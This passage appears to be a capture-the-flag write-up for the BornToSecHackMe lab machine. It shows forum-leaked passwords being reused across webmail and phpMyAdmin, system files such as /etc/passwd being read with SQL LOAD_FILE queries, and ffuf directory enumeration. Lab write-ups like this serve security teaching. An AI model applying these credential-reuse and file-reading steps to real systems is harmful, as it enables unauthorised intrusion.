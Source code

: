 
### Mylittleforum

In the `forum` we find an interesting post named `Problem login ?` posted by `lmezard` which seems to be log connections. One line gives us a password:
```
 Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
```
It's the password for `lmezard`, `lmezard:!q\]Ej?*5K5cy*AJ` </br>
These credentials allows us to connect to the `forum` as `lmezard`. In the profile settings we found a mail address: `laurie@borntosec.net` </br>

### SquirrelMail

With the mail and the password `laurie@borntosec.net:!q\]Ej?*5K5cy*AJ` found in the forum, we access to the webmail interface as `laurie`. Once connected we find a mail from `qudevide` giving us the credentials for the database `phpmyadmin`: `root:Fg-'kKXBj87E:aJ$` </br>

### phpmyadmin

On the `phpmyadmin` pannel we see a lot of things, like the `forum` database. An interesting feature of `phpmyadmin` is to make custom `SQL Queries` to the database, as `mysql` user. 
It allows us to read files on the machine like `/etc/passwd`:
```
SELECT LOAD_FILE('/etc/passwd')
```
```
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie:x:1003:1003:,,,:/home/laurie:/bin/bash
thor:x:1004:1004:,,,:/home/thor:/bin/bash
zaz:x:1005:1005:,,,:/home/zaz:/bin/bash
```
- Or get configuration files, like the apache2's configuration. It gives us the location of the directories on the machine: `SELECT LOAD_FILE('/etc/apache2/sites-enabled/000-default')`
```
<VirtualHost *:443>
ServerAdmin webmaster@localhost
...
Alias /phpmyadmin /usr/share/phpmyadmin
...
Alias /forum /var/www/forum
...
Alias /webmail /usr/share/squirrelmail
...
```
Reading files was actually limited and writing files was even more difficult. After enumerating more on the `/forum` we find a directory:  
```
ffuf -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://192.168.56.112/forum/FUZZ -fs 288
...
templates_c             [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 4ms]
...
```
